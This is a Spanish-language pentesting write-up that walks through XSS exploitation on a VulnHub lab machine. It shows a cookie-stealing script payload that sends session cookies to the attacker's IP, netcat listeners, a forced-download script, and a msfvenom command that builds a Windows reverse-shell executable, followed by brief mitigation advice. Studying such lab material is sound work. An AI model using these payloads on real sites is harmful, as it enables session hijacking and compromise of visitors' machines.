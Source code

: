 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=D1F700&width=435&lines=Ataque+XSS+y+secuestro+de+Cookies"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>VULNERABILIDAD XSS</ins></h3>

Cross-Site Scripting (XSS) es uno de los ataques más conocidos y explotados en entornos web, forma parte de las 10 vulnerabilidades más frecuentes en aplicaciones web desde 2014, algunas estadísticas afirman que el 70% de los sitios web tienen al menos una vulnerabilidad de XSS. Este ataque se aprovecha de fallas de seguridad de sitios y aplicaciones web ya que permite a un atacante cargar scripts maliciosos en un sitio web del lado del navegador para que un usuario desprevenido visite el sitio y sea infectado, tal como robar sus cookies (credenciales), realizar un defacement, cargar un código malicioso para obtener sesión de la máquina víctima o simplemente redirreccionar al usuario a otro sitio malicioso (phishing).

#### ¿Cómo se inyecta el script malicioso?

Normalmente el atacante lo que hace es buscar una entrada de datos en el sitio web, como puede ser un simple input de búsqueda o formularios/campos de comentarios, así como en la misma URL con un payload precargado.

### Tipos de ataques de Croo-Site Scripting

Existen tres tipos de vectores de XSS:

**XSS indirecto** (reflejado): Es el tipo de ataque más común, el atacante inyecta el script en el sitio web y esté es ejecutado cuando el usuario hace una petición al servidor web, es entonces cuando se carga el script y se muestra como un mensaje de error. Por el lado de la víctima, se mostrará dicho mensaje y que deberá hacer clic en el enlace que se le indique, ejecutando así el código malicioso y descargando el malware en su equipo.

**XSS directo** (persistente): En este caso, el ataque persistente infecta todas las respuestas HTTP a través de la carga maliciosa por parte del atacante, la diferencia con el reflejado es que en este no es necesario atraer a la víctima y redireccionarla con un enlace; lo único que tiene que hacer es esperar que está haga clic sobre algún campo de comentario y el hackeo se produce automático, o mejor dicho, de forma pasiva.

**XSS basado en DOM**: El tercer ataque intenta escabullirse lo más que pueda, volviéndola difícil de detectar si no se profundiza el código línea por línea. El payload del ataque se ejecuta en la modificación del entorno DOM en el navegador de la víctima utilizado por el código del lado del cliente original, es decir, la respuesta HTTP no cambia, pero el contenido de la página se ejecuta de manera diferente debido a las modificaciones maliciosas del script producido en el entorno DOM. Por ejemplo, al escribir código Javascript en la URL para ser tomado como parte del HTML.

<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/WEB/img/ataqueXSS.png">
</p>

</br>

#### Cookies

Las cookies es un fragmento de información que es enviada por un sitio web y es almacenada en el navegador del usuario. Permite que los sitios web accedan a la información con fines estadísticos, ofrecer mejor experiencia y servicios útiles; tomando como muestra nuestra ubicación, idioma, intereses, entre otras para ofrecernos publicidad orientada. 

Desde antes ya existían las cookies solamente que no eran obligatorias mostrarlas, desde entonces cada vez que visitamos un sitio web, estas están obligadas a mostrar un mensaje de advertencia de uso de cookies y sus políticas. Las cookies son archivos temporales y su duración es temporal, por lo que podemos configurarlas, borrarlas o bloquearlas con extensiones gratuitas del navegador. Se vuelven peligrosas cuando no se suele avisar al usuario ya que pueden recopilar otros datos confidenciales.

<h1 align="center"></h1>

### DETECTAR DETECTAR VULNERABILIDAD XSS

Como muestra de ejemplo, descargué una máquina de vulnhub llamada "<a href="https://www.vulnhub.com/entry/pentester-lab-xss-and-mysql-file,66/">*PENTESTER LAB: XSS AND MYSQL*"</a> para demostrar como es posible aprovecharse de esta vulnerabilidad en un entorno controlado y legal.

![1](https://user-images.githubusercontent.com/75953873/187095720-5b148555-7d80-40b8-95b5-0d301acaf744.png)

Servidor web: `http://192.168.25.135`

Nmap contiene un script para detectar posibles vectores vulnerables a XSS.
```
nmap -p80 --script http-stored-xss.nse <TARGET>
```
![2](https://user-images.githubusercontent.com/75953873/187103485-4175545b-bcf0-49a0-9398-3ea6b2502d44.png)

También podemos hacer uso de herramientas como <a href="https://github.com/s0md3v/XSStrike">XSStrike</a>, <a href="https://github.com/pwn0sec/PwnXSS">PwnXSS</a>, entre otras existentes.

![3](https://user-images.githubusercontent.com/75953873/187104187-dc163b7c-8143-4ba5-be3a-cd23cf677eaf.png)

Pero el objetivo del post es detectar y explotar vulnerabilidad XSS de forma manual, y para eso, es preciso contar con básicos conocimientos de Javascript para inyectar código del lado del navegador y que esté sea leído y ejecutado. La ventaja de llevarlo manual es que no hace mucho ruido, por ejemplo el siguiente código emitirá una alerta y sabremos si es vulnerable a XSS o no:
```javascript

<script>alert("Vulnerable a XSS");</script>
```
![4](https://user-images.githubusercontent.com/75953873/187104531-69d35d55-df37-417c-9db1-cc1302f1155a.png)

Luego de hacer clic en "Submit" mostrará el mensaje de alerta.

![5](https://user-images.githubusercontent.com/75953873/187104588-eaaeca8f-ac55-4567-a058-fe27c894e108.png)

<h1 align="center"></h1>

### SECUESTRO DE COOKIES

Definitivamente la página es vulnerable a Cross-Site Scripting, cuando otro usuario intente hacer un comentario se ejecutará la alerta anterior, pero... -¿y ahora qué?- Bueno, aquí es dónde hay que exprimir todo el jugo a esta vulnerabilidad. Según la web hay un panel de administración así que intentaré robar las cookies de un usuario privilegiado e iniciar sesión, y para ello usaré el siguiente script:
```javascript

<script>document.write('<img src="http://192.168.1.9:8585/?'+document.cookie+' "/>");</script>
```
La dirección IP local es la de mi máquina (Kali) y el puerto 8585 es dónde se va a escribir y almacenar la cookie.

![6](https://user-images.githubusercontent.com/75953873/187104762-5a305614-8366-4d1e-90b3-64790bb5ebe9.png)

Ahora lo que haremos es poner a escucha el puerto 8585 y esperar a que un usuario inicie sesión para capturar la cookie. Para esto podemos usar Netcat o Python:
```
Netcat: nc -lvnp 8585
Python3: python3 -m http.server 8585
```
![7](https://user-images.githubusercontent.com/75953873/187104875-9ea540b9-0fd4-464f-b23e-c5c769cd215d.png)

Cookie: `u61dlmmqrsrbt612lmu4tmh0o5`

Después de capturar la cookie, descargan la extensión "<a href="https://addons.mozilla.org/es/firefox/addon/a-cookie-manager/">*Cookie Manager*</a>" del navegador Firefox y creamos una nueva cookie. En value pegan la cookie y en la URL el sitio web:

![8](https://user-images.githubusercontent.com/75953873/187105199-31eadfc0-724c-45c5-9722-90b0d6788a43.png)

Recargamos la página y le damos a "*Admin*" y como verán, iniciamos sesión en la cuenta del administrador sin necesidad de aportar ninguna credencial.

![9](https://user-images.githubusercontent.com/75953873/187105257-1168179e-7513-4ee1-b32e-aeb81d7db482.png)

<h1 align="center"></h1>

### OBTENER CONTROL DE LA MÁQUINA DEL USUARIO

Aquí es dónde viene lo peligroso, no solamente podemos hackear el sitio web, sino también cargar un software o código malicioso para que cualquier usuario que visite el sitio web descargue el malware y se infecte. Para eso es necesario utilizar otro script más malicioso aún:

```javascript

<script>var software = document.createElement('a');
software.href='http://192.168.1.9/documento.exe';
software.download= '';
document.body.appendChild(software);
software.click();</script>
```
![10](https://user-images.githubusercontent.com/75953873/187105472-dfb6d4b4-1c4b-44a9-a4cb-d53f32d0b16f.png)

En el código anterior se crea una variable llamada "**software**" en dónde se le indica que redireccione al usuario a la página (nuestra IP local) y descargue el programa malicioso (*documento.exe*). Posteriormente hay que crear el archivo ejecutable malicioso con msfvenom, **LHOST** es su IP local y el **LPORT** es el puerto a escucha de conexiones, al final especifiqué la ruta en el directorio raíz del servidor local y finalmente el nombre del archivo:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.9 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai > /var/www/html/documento.exe
```
![11](https://user-images.githubusercontent.com/75953873/187105687-338198bd-24a1-4f44-9a48-328709eaca42.png)

Abrir servidor local HTTP:
```
sudo service apache2 start
```

Cualquier usuario que entre a la página web se le preguntará si desea descargar el documento y en caso de que alguien lo descargue y ejecute, deberíamos de tener una terminal a escucha de conexiones por el puerto 4444 con Netcat o Python:
```
Netcat: nc -lvnp 4444
Python3: python3 -m http.server 4444
```
![12](https://user-images.githubusercontent.com/75953873/187105838-e5554a83-9f27-4315-8d42-aad2eb07cd98.png)

Finalmente el usuario ejecuta el documento "legítimo" y obtendremos acceso al sistema operativo:

![13](https://user-images.githubusercontent.com/75953873/187105843-e32707fa-df18-40a9-a392-b5559fe94bbd.png)

<h1 align="center"></h1>

</br>

#### MITIGAR VULNERABILIDAD

Por parte del administrador del sitio web se le aconseja bloquear determinados caracteres que pueden ser utilizados para introducir código malicioso, validar y verificar todos los datos de entrada que el usuario pueda ingresar como texto; así como la longitud de la misma. Implementar un WAF que impida los ataques de XSS y monitoreé el tráfico HTTP, codificar los datos de salida para los usuarios. Por parte de los usuarios es aconsejable que mantengan antivirus y navegadores actualizados.


**Lista de payloads XSS:** https://github.com/payloadbox/xss-payload-list



#### ~R3LI4NT~
